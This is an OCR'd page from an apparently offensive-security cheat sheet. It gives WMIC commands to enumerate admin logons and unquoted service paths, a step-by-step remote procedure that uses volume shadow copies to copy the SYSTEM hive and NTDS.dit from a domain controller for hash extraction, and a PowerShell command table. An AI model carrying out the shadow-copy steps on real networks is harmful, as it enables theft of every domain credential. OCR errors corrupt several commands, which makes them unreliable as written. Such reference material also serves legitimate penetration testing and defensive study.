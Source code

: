 ### The list of times that the user has entered

```text
wmic netlogin where (name like "%adm%") get numberoflogons 
```

### Search services for unquoted routes

```text
wmic service get narne,displayname,pathnarne,startrnode 
| findstr /i nauton | findstr /i /v "C:\windows\\" | findstr /i /v """
```

### Copy of Volume shadow

```text
1. wmic /node: DC IP /user:"DOI1AIN\user" /password:"PASS" process 
   call create "cmd /c vssadmin list shadows 2 &1 
   c:\temp\output.txt" 
# If any copies alread1 ex~st then exfil, otherwise create using 
following commands. Check output.txt for anJ errors 
2. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process 
   call create "cmd /c vssadmin create shadow /for=C: 2 &1 
   C:\temp\output.txt" 
3. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process 
   call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVol~meShadowCopy1\Windows\System32\co nfig\SYSTEM 
   C:\temp\system.hive 2 &1  
   C:\temp\output.txt" 
4. wmic /node: DC IP /user: "DOl'.llUN\user" /password: "PASS" process call create ''cmd /c copy 
   \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyc\NTDS\NTDS.dit 
   C:\temp\ntds.dit 2 &1 C:\temp\output.txt" 
Step by step instructions on room362.com for step below 
5. From Linux, download and run ntdsxtract and libesedb to export 
   hashes or other domain information 
   a. Additional instructions found under the VSSOWN section 
   b. ntdsxtract - http://www.ntdsxtract.com 
   c. libesedb - http://code.google.com/p/libesedb/ 
```

## POWERSHELL environment

| **Command** | **Description** |
| :--- | :--- |
| stop-transcript | Stop recording
| get-content file | Display the contents of the file
| get-help command-examples | Display sample command
| get-command 'string' | Search for cmd |
| get-service | Show services \(stopservice, start-service\) |
| get-wmiobject -class win32 service | Show services with the same identity information |
| $PSVersionTable | Show powershell version
| powershell.exe -version 2.0 | Run powershell 2.0 from version 3.0 |
| get-service measure-object | Information returned from the service
| get-psdrive | List returned from PSDrives |
| get-process select -expandproperty name |show names |
| get-help '-parameter credential | Receive identity information